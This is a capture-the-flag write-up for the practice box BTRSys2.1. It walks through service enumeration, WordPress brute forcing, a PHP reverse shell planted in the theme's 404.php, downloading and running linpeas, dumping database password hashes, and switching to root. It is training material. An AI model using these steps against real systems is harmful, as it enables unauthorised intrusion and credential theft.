 ```yaml
---
title: "[Practice] Proving Grounds: BTRSys2.1"
---
```


This is a write up for the box BTRSys2.1 on proving grounds. It's a part of the get to work series and is a free to play box that is Linux based.

## Enumeration
---
Starting off by kicking off autorecon to enumerate the services running off the box.

If you do not use autorecon I have left the basic nmap scripts that are essentially being executed.

``` bash
nmap -vv --reason -Pn -A --osscan-guess --version-all -p- $ip
```
```
Nmap scan report for 192.168.162.50
Host is up, received user-set (0.021s latency).
Scanned at 2021-10-11 17:55:47 EDT for 54s
Not shown: 65532 closed ports
Reason: 65532 resets
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.162
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 08:ee:e3:ff:31:20:87:6c:12:e7:1c:aa:c4:e7:54:f2 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKrYYWK3Xv2EBb0KryPAargHdeVdVuGj+AHTUbH1CyLIuQ3zbtaq2+lr5K/aMqiJ5othz27+RWSJ2NmQ2JeOUBCogFLikCwU6MRDQLHpV+neS3fAKrH5fNnXo+RfnMWBLQaaXBPiUOQaoQc27hRN3SJ1hbVLEF65TY0siTrOj0Lt8SRztwkbfynHEKxMsQi5WWDLTgS7bivCf9VVWwqgmuBbsJAqFExDjLxlxJpH4+93bgEtD9EPV/KKO9B3Inaz8PxC+zXZofhZXloysYoGg4IZzT55JzrRVRuv/cbGcMuGTBpCCkdH01G4NCSgL7YwX13C1Qc+EFX1QExV6k1ePD
|   256 ad:e1:1c:7d:e7:86:76:be:9a:a8:bd:b9:68:92:77:87 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFTsqff4O0hsl+RUR2lXFcbCEkvFcspHALA2RR2DpoD2AlRN/DEpIbW3NETNXxxyKHTtGhUiBSUuw8S9RSBAsnY=
|   256 0c:e1:eb:06:0c:5c:b5:cc:1b:d1:fa:56:06:22:31:67 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIH91w++CdkbeAkmXYietVhD/73nEaXR/nbeBEyuwLwgq
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Aggressive OS guesses: Linux 3.11 - 4.1 (95%), Linux 4.4 (95%), Linux 3.16 (94%), Linux 3.13 (92%), Linux 3.10 - 3.16 (92%), Linux 3.10 - 3.12 (91%), Linux 2.6.32 (91%), Linux 3.2 - 3.8 (91%), Linux 3.8 (91%), WatchGuard Fireware 11.8 (91%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/11%OT=21%CT=1%CU=43495%PV=Y%DS=2%DC=T%G=Y%TM=6164B3
OS:19%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=
OS:102%GCD=1%ISR=10A%TI=Z%TS=8)OPS(O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT
OS:11NW7%O4=M506ST11NW7%O5=M506ST11NW7%O6=M506ST11)WIN(W1=7120%W2=7120%W3=7
OS:120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M506NNSNW7%CC=Y%Q
OS:=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=
OS:Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

Nmap Summary:
- Port 21 FTP
- Port 22 SSH
- Port 80 HTTP

After noticing we have port 80 open I immediately go to the page and we find nothing interesting in the page source. It's basically just a gif. 

<img src="/assets/resources/btrsys2.1/home_page.png">

(Autorecon already did some directory busting btw saving me time see command below)

```
feroxbuster -u http://192.168.162.50:80 -t 10 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -v -k
```

I review the feroxbuster report and notice that we have the findings below:

```
Relevant Findings
403       11l       32w      302c http://192.168.162.50/server-status
301        9l       28w      317c http://192.168.162.50/upload
301        9l       28w      320c http://192.168.162.50/wordpress
```

We now know the server is running wordpress so we can begin to browse this page for a potential login page. I am going to start wpscan on it since it can help quickly enumerate version numbers and any plugins that might be on vulnerable.

Nothing crazy came up from the wpscan findings so I go ahead and see that there is a wp-login page though present on the site.

I tried some quick default credentials and was able to get in on the first try with: admin:admin

Lucky guess usually its the first one I try. If you didnt try this we would be able to use wpscan to bruteforce our way in!

We know admin is a valid user to btw since there was some information disclosure when trying to Login.


```bash
wpscan --url <ip> --usernames admin --passwords /usr/share/wordlists/rockyou.txt
```
<img src="/assets/resources/btrsys2.1/wordpress_user_disclosure.png">

## Exploitation
---
Now that we are actually in the wordpress admin portal we can play around with some of the settings. I noticed that there aren't any crazy unusual plugins that we can modify and wpscan didn't really give us that much helpful information either.

I do know however that the server is running apache which is able to execute php code.

We have the ability to edit the themes (Appearance > Theme Editor) php files so we can easily replace the code with malicious php that can be used as a reverse shell.

I will be using the pentest monkey reverse shell which can be found here > https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Editing the pentestmonkey php file
<br>
<img src="/assets/resources/btrsys2.1/pentest_monkey.png">

Replacing the contents of 404.php
<br>
<img src="/assets/resources/btrsys2.1/php_replaced.png">

Just download the file edit variables $ip and $port to the IP of your attack box and the port you want to listen for a connection on.

Now after we replaced the 404.php file like shown in the screenshot we will be starting a nc listener on port 1234

```
nc -nvlp 1234
```

To execute the shell we have to browse to the themes directory where 404.php is stored. If you do not know where the 404.php page would be located we can github the template being used then find it there.

Typically its in this directory: /wp-content/themes/twentyfourteen/404.php for future reference

<img src="/assets/resources/btrsys2.1/reverse_shell_execution.png">


## Privilege Escalation
---

Once we are in we have a dumb shell without a proper tty

We can use python to update it

First I checked to see which version we have

Confirmed we have python3 installed

Fixed our tty issue using:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<img src="/assets/resources/btrsys2.1/tty_fix.png">

Going to automate a lot of the manual commands such as looking at /etc/passwd, /etc/crontab and looking for passwords as well as SUID SGUID with linpeas

going over to the /tmp folder

hosting a webserver on my kali box in the directory im hosting linpeas using updog

updog -p 80

Now I will download the file to the machine using wget

```
wget $ip/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```
Reading the linpeas.sh output here are a lot of the things I am looking for:
Kernel Exploit? No
Capability? No
SGID/SUID? No
Credentials? Yes

We found the following credentials in the mkasdklnasd file we can use it to connect to a mysql db.

<img src="/assets/resources/btrsys2.1/db_password.png">

Commands Used to connect to DB:

```
mysql -u root -p rootpassword!

showdatabases;

use wordpress;

show tables;

select * from wp_users;
```

After viewing the wp_users table we notice that we get hashses for root and admin.

I used crackstation to crack them and got the following results:

root:roottoor
admin:admin

Example:
<img src="/assets/resources/btrsys2.1/root_hash_cracked.png">

Now that we have the root password all we have to do is switch to the root user.

```
www-data@ubuntu:/home/btrisk$ su root                                                                                                                                              
su root                                                                                                                                                                            
Password: roottoor                                                                                                                                                                 
                                                                                                                       
```                                                                                                                                                                              

<img src="/assets/resources/btrsys2.1/imroot.png">

We have now succesfully rooted this box!
